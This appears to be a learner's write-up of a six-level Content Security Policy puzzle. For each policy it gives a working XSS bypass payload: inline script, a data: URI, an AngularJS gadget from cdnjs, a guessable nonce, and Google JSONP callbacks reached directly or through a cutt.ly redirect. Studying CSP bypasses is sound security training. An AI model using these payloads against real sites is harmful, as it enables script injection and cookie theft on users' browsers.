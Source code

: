 # CSP Puzzle

**Level 1**
default-src 'self'; script-src 'unsafe-inline'
`<script>alert('xss')</script>`

**Level 2**
default-src 'self'; script-src data:
`<script src="data:;base64,YWxlcnQoInhzcyIp"></script>`

**Level 3**
default-src 'self'; script-src https://cdnjs.cloudflare.com/
Would be possible to use a library on cloudflare that uses eval (or setTimeout with string param). Had to use solution: 
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script> <input type=text ng-app id=p ng-focus=$event.view.alert("Hacked")>

**Level 4**
default-src 'self'; script-src 'nonce-MDQuMDMuMjAyMy8xMToyNg=='
<script nonce="MDQuMDMuMjAyMy8xMjo0NA==">alert('xss')</script>   (nonce is the base64 encoded current time in the following format: "04.03.2023/12:44")

**Level 5**
default-src 'self'; script-src https://accounts.google.com
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(document.cookie);"></script>
JSONP -> is a trick to allow loading data from cross origin resources. It demands a callback function to be passed that is to be executed (here an alert)

**Level 6**
default-src 'self'; script-src https://cutt.ly https://accounts.google.com/secure/
<script src="https://cutt.ly/VedoLP4"></script>
cutt.ly site will redirect to anotto https://accounts.google.com/secure/ (status code 301) which in this case is again a JSONP "https://accounts.google.com/o/oauth2/revoke?callback=alert(document.cookie);" that executes the js code

My learnings: CSP is not easy, especially when scripts from other sources have to be allowed.  